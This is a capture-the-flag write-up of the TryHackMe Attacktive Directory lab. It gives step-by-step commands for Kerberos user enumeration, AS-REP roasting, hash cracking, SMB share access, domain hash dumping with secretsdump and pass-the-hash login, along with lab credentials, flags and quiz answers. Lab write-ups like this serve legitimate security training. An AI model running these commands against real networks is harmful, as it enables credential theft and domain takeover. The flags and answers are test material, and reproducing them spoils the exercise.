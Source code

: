 # Attacktive Directory Box Writeup
# Completed 23:22 29 DEC 21
# Donkeyk0ng787

# MY IP - 10.4.24.252
# BOX IP - 10.10.124.44

# Creds

	svc-admin:management2005
	backup@spookysec.local:backup2517860 

# Task 3 - Enumeration

	'Running a simple nmap scan
	nmap -sC -sV 10.10.124.44 -oN nmap/initial
	Gets us the domain spookysec.local'
	
	Question answers
	'enum4linux'
	'THM_AD'
	'.local'
	
# Task 4 - Enumerating Users via Kerberos

	'Using kerbrute to find the usernames using the following command
	./kerbrute_linux_386 userenum userlist.txt -d spookysec.local --dc spookysec.local
	This gets us a list of usernames'
	
	Question answers
	'userenum'
	'svc-admin'
	'backup'
	
# Task 5 - Abusing Kerberos

	'For this we use a script in impacket called GetNPUsers.py
	For this we use the following command to generate a file with the hashed password
	we can then put into hashcat.
	python3 GetNPUsers.py spookysec.local/ -dc-ip 10.10.124.44 -usersfile ~/THM/AttacktiveDirectory/usernames.txt -format hashcat -outputfile ~/THM/AttacktiveDirectory/hashes.txt
	From here we use the first part of the hash and match it to the hash type on the hashcat example wiki
	We see that it is Kerberos 5 AS-REP etype 23 which is mode number 18200
	We use the following hashcat command to crack the hash
	hashcat -m 18200 --force hashes.txt /usr/share/wordlists/rockyou.txt
	This gives us the password of
	management2005'
	
	Question answers
	'svc-admin'
	'Kerberos 5 AS-REP etype 23'
	'18200'
	'management2005'
	
# Task 6 - Enumeration - Back to Basic

	'Now that we have an account we can use smbclient to enumerate the shares using the command
	smbclient -L \\\\10.10.124.44 -U 'svc-admin'
	This lists for us the 6 shares on the spookysec.local domain
	We have access to a share in /backup which contains a txt file which contains an encoded string
	YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
	This is obviously base64 which we decode and get
	backup@spookysec.local:backup2517860'
	
	Question answers
	'smbclient'
	'-L'
	'6'
	'backup'
	'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw'
	'backup@spookysec.local:backup2517860 '
	
# Task 7 - Elevating Privileges in the Domain

	'Now that we have user credentials for the backup account of the domain controller, we can use another impacket tool
	secretsdump.py to retrieve all the password hashes that this user account has to offer. This will effectively give
	us full control over the AD domain.
	The usage of this tool is as follows
	python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.124.44
	This gives us the hashed version of the administrator password among many other things
	Administrator hash is 0e0363213e37b94221497260b0bcb4fc'
	
	Question answers
	'DRSUAPI'
	'0e0363213e37b94221497260b0bcb4fc'
	'pass the hash'
	'-H'
	
# Task 8 - Flag Submission

	'Using evil-winrm we can access the server and collect the flags
	Usage is as follows
	evil-winrm -i 10.10.124.44 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

	svc-admin flag
	'TryHackMe{K3rb3r0s_Pr3_4uth}'
	
	backup flag
	'TryHackMe{B4ckM3UpSc0tty!}'
	
	Administrator flag
	'TryHackMe{4ctiveD1rectoryM4st3r}'
	
	
	
	
	
	
	